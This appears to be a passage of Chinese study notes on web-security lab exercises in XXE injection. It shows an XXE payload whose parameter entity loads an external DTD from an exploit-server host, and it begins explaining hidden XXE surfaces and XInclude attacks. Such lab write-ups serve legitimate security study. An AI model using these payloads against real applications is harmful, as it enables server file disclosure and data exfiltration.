```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
 
我的是：
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aaa00cb049df40780b5981a014c0087.exploit-server.net/exploit"> %xxe;]>
```

答案如下

<img src=".\图片\Snipaste_2023-07-31_12-32-28.png" alt="Snipaste_2023-07-31_12-32-28" style="zoom:80%;" />

这个好像有点像sqli报错注入吧

## Lab7

### 前置

查找XXE注入的隐藏攻击面：

XXE注入漏洞的攻击面在许多情况下是显而易见的，因为应用程序的正常HTTP通信量包括含有XML格式数据的请求。在其他情况下，攻击面不太明显。但如果在正确的地方查看，会发现XXE攻击出现在不包含任何XML的请求中

XInclude攻击：

1、一些应用程序接收客户端提交的数据，在服务器端将其嵌入到XML文档中，然后解析该文档。当客户端提交的数据被放入后端SOAP请求中，然后由后端SOAP服务处理时，就会出现这种情况。

2、在这种情况下，不能执行典型的XXE攻击，因为不能控制整个XML文档，因此不能定义或修改文件DOCTYPE元素。但也许可以使用XInclude替代。XInclude是XML规范的一部分，它允许从子文档构建XML文档。可以放置一个XInclude XML文档中的任何数据值内的攻击，因此在仅控制放置在服务器端XML文档中的单个数据项的情况下可以执行攻击
